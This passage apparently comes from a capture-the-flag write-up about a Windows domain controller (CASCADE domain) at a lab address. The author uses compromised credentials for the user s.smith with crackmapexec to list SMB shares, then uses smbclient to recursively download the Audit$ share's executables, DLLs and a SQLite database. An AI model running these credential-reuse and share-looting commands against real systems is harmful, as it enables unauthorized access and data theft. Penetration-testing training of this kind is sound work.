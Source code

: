 
I can also access this share from my local box:

    
    
    root@kali# crackmapexec smb -u s.smith -p sT333ve2 --shares 10.10.10.182
    SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:CASCADE) (signing:True) (SMBv1:False)
    SMB         10.10.10.182    445    CASC-DC1         [+] CASCADE\s.smith:sT333ve2 
    SMB         10.10.10.182    445    CASC-DC1         [+] Enumerated shares 
    SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
    SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
    SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
    SMB         10.10.10.182    445    CASC-DC1         Audit$          READ            
    SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
    SMB         10.10.10.182    445    CASC-DC1         Data            READ            
    SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
    SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
    SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
    SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share
    

I’ll copy all the files to my local VM:

    
    
    root@kali# smbclient --user s.smith //10.10.10.182/Audit$ sT333ve2
    Try "help" to get a list of possible commands.
    smb: \> mask ""
    smb: \> prompt OFF
    smb: \> recurse ON
    smb: \> lcd smb-audit-loot/
    smb: \> mget *
    getting file \CascAudit.exe of size 13312 as CascAudit.exe (191.2 KiloBytes/sec) (average 191.2 KiloBytes/sec)
    getting file \CascCrypto.dll of size 12288 as CascCrypto.dll (206.9 KiloBytes/sec) (average 198.4 KiloBytes/sec)
    getting file \DB\Audit.db of size 24576 as Audit.db (461.5 KiloBytes/sec) (average 275.3 KiloBytes/sec)
    getting file \RunAudit.bat of size 45 as RunAudit.bat (0.8 KiloBytes/sec) (average 213.2 KiloBytes/sec)
    getting file \System.Data.SQLite.dll of size 363520 as System.Data.SQLite.dll (3317.8 KiloBytes/sec) (average 1198.9 KiloBytes/sec)
    getting file \System.Data.SQLite.EF6.dll of size 186880 as System.Data.SQLite.EF6.dll (356.4 KiloBytes/sec) (average 690.9 KiloBytes/sec)
    getting file \x64\SQLite.Interop.dll of size 1639936 as SQLite.Interop.dll (4411.8 KiloBytes/sec) (average 1805.3 KiloBytes/sec)
    getting file \x86\SQLite.Interop.dll of size 1246720 as SQLite.Interop.dll (4629.3 KiloBytes/sec) (average 2308.8 KiloBytes/sec)
    

### Audit.db

The first thing I looked at was `DB\Audit.db`. It’s a SQLite3 database:
